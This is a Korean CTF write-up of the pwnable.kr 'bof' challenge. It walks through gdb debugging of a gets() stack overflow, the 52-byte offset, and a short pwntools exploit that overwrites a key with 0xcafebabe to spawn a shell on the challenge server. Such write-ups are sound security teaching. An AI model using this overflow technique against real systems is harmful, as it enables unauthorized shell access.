 # [pwnable.kr] bof문제 writeup

---

![Untitled](/3%EC%A3%BC%EC%B0%A8/IMG/bof/bof0.png)

리눅스에 wget명령어로 bof파일을 받아서 gdb-gef를 사용하여 디버깅 해보았다.

![스택에 0xdeadbeef를 넣어주고 func라는 함수를 실행한다.](/3%EC%A3%BC%EC%B0%A8/IMG/bof/bof1.png)

스택에 0xdeadbeef를 넣어주고 func라는 함수를 실행한다.

한번 func 함수를 disas 명령어로 확인해보자

![Untitled](/3%EC%A3%BC%EC%B0%A8/IMG/bof/bof2.png)

24번째, 35번째 줄에서 함수를 호출하고(어떤 함수인지는 아직 모름) cmp부분에서 0 xcafebabe랑 비교하는 걸 볼 수 있다.

한번 c언어 코드도 보자

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
    char overflowme[32];
    printf("overflow me : ");
    gets(overflowme);    // smash me!
    if(key == 0xcafebabe){
        system("/bin/sh");
    }
    else{
        printf("Nah..\n");
    }
}
int main(int argc, char* argv[]){
    func(0xdeadbeef);
    return 0;
}
```

c언어의 func함수 코드를 보니 대충감이 왔다.

어셈블리에서 24번째 줄에서 호출한 함수는 printf함수고, 35번째 줄에서 호출하는 함수는 gets함수다.

bof문제이기 때문에 gets에서 오버플로우를 발생시켜서 if부분에 key값을 조작하면 해결될 거 같다.

gets에서 내가 입력한 문자열이랑 key에 들어있는 0 xdeadbeef값이 얼마나 떨어져 있는지 알아내기 위해서 gdb에서 func+40(gets함수 바로 다음 부분)에 브레이크 포인트를 걸고 실행시켜보았다.

aaaa를 입력했다.

![브레이크 포인트에 멈춘 상태](//3%EC%A3%BC%EC%B0%A8/IMG/bof/bof3.png)

브레이크 포인트에 멈춘 상태

![Untitled](/3%EC%A3%BC%EC%B0%A8/IMG/bof/bof4.png)

find 명령어로 입력한 값이 저장된 위치를 찾았다.

내가 입력한 0x61616161(aaaa)로부터 0 xdeadbeef가 얼마큼 떨어져 있는지 알아내기 위해 x/20wx 0 xffffd2 dc 명령어를 사용했다

![gets로 받는 부분부터 13만큼 떨어져있다](/3%EC%A3%BC%EC%B0%A8/IMG/bof/bof5.png)

gets로 받는 부분부터 13만큼 떨어져있다

aaaa를 넣었을 때 한 칸이 0x61616161로 찼으니까 총 4x13=52만큼 문자를 입력하고 0 xcafebabe를 입력하면 조작할 수가 있다.

---

<aside>
💡 **추가내용**

</aside>

> 찾아보니 pwndbg에 더 편한 기능이 있었다. distance라는 명령어인데 각 값의 주소를 입력해주면 오프셋를 구해준다.
> 

![각 값의 주소를 구해주고](/3%EC%A3%BC%EC%B0%A8/IMG/bof/bof6.png)

각 값의 주소를 구해주고

![명령어를 사용하면](/3%EC%A3%BC%EC%B0%A8/IMG/bof/bof7.png)

명령어를 사용하면

0x34(10진수로 52) 바이트만큼 떨어져 있다고 나온다.

---

## Exploit

```python
from pwn import *

p = remote("pwnable.kr", 9000)

payload = b'a'*52

payload += p32(0xcafebabe)

p.sendline(payload)
p.interactive()
```

4번째 줄에서는 사이트에 나와있는 nc의 주소로 접속하게 해주는 코드이다. 

첫 번째 gets에서 오버플로우를 발생시켜야 하기 때문에 페이로드를 한 문자열로 끝내야 한다.

6번째 줄에서 위에서 설명한 대로 52만큼 문자를 입력해준다.

그리고 0 xcafebabe를 추가해줘야 하는데 여기가 중요하다.

### 32비트 프로그램은 리틀 엔디안 방식으로 데이터를 저장한다.

> 간단하게 설명하자면 0x12345678을 리틀 엔디안 방식으로 저장한다고 하면 78,56,34,12 이런 식으로 순서가 뒤바뀐다. 이 부분에 대해서는 개인 공부를 더해보길 바란다.
> 

앞에 52개의 문자는 더미 데이터라서 순서가 상관없었지만 0 xcafebabe는 순서가 정확해야 cmp부분을 통과할 수가 있다. pwntools에는 p32()라는 아주 좋은 함수가 있다. p32()는 값을 32비트인 리틀 엔디안 방식으로 알아서 패킹해준다.

이제 완성된 페이로드를 p.sendline으로 자동 입력이 되게 하고, p.interactive로 내가 직접 상호작용 할 수 있게 하면 완성이다. 한번 실행시켜보자.

![플래그를 읽을 수 있었다](/3%EC%A3%BC%EC%B0%A8/IMG/bof/bof8.png)

플래그를 읽을 수 있었다